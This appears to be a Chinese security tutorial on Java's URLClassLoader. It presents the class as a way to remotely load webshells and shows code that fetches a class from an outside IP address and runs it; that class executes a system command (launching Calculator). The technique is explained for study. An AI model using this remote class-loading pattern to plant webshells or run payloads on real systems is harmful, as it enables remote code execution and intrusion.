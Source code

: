 ![在这里插入图片描述](https://img-blog.csdnimg.cn/1de1b7f2ad884842854bd8170a710fd0.png)

## URLClassLoader
URLClassLoader是ClassLoader的一个实现，拥有远程服务器上加载类的能力，通过这个URLClassLoader可以实现对一些webshell的远程加载

这里举个例子
我在Tomcat服务器处生成一个执行系统命令的class

```java
public class Test {
    public static void main(String[] args){
        try{
            Runtime.getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");
        } 
        catch(Exception e) {
            e.printStackTrace();
        }
    }

}
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/b3a2cadf22264a219bb5d31b88ba296e.png)

然后在项目里远程加载这个类

```java
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class URLClassLoaderTest {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InstantiationException, IllegalAccessException {
        URL url = new URL("http://101.35.98.118:12424/javatest/");
        URLClassLoader cl = new URLClassLoader(new URL[]{url});
        Class c = cl.loadClass("Test");
        c.newInstance();
    }
}

```






